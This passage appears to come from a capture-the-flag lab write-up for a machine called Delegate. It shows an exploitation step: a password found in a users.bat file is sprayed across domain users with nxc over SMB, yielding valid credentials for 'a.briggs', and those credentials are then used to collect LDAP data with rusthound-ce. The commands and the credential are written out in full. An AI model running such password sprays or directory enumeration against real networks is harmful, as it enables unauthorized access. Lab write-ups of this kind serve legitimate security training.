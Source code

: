 ## Exploitation

Listing the contents of the users.bat file.

![image.png](/assets/images/Delegate_VL/image%2010.png)

Lets try to do a password spray on all the users.

### Password Spray

```bash
nxc smb delegate.vl -u usernames.txt -p 'P4ssw0rd1#123' --continue-on-success
```

![image.png](/assets/images/Delegate_VL/image%2011.png)

We have a valid hit!

I will save these creds in creds.txt file.

Now lets collect ldap data using the Rusthound.

### Bloodhound

Lets do some bloodhound analysis.

```bash
rusthound-ce -d delegate.vl -u 'a.briggs' -p 'P4ssw0rd1#123' -f dc1.delegate.vl -c All -z
```
